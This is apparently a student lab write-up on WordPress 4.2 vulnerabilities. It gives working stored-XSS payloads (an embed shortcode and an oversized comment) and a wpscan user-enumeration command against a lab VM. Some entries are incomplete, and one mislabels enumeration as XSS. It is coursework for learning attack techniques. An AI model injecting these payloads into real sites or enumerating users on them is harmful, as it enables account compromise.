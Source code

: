 ## Unit 7 & 8 Project: WordPress vs. Kali

**Homework Instructions**:

Time spent: **48** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPres

### 1. (Required) Youtube Embedded Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="2022-10-28-12-50-39.gif">
- [ ] Steps to recreate: 
- Create a post with the following text: [embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
### 2. (Required) Comment Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="Untitled design.gif">
- [ ] Steps to recreate: 
- Paste the following text in a comment: 
- ``<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a>``
- Make sure the character length is 64kb or more.
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) User Enumeration

- [ ] Summary: 
Vulnerability types: XSS
Tested in version: 4.2
Fixed in version: 4.7.3 
- [ ] GIF Walkthrough: <img src="2022-10-28-12-55-33.gif">
- [ ] Steps to recreate: 
- Paste the following code to kali-linux terminal: wpscan --url wpdistillery.vm --enumerate u
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

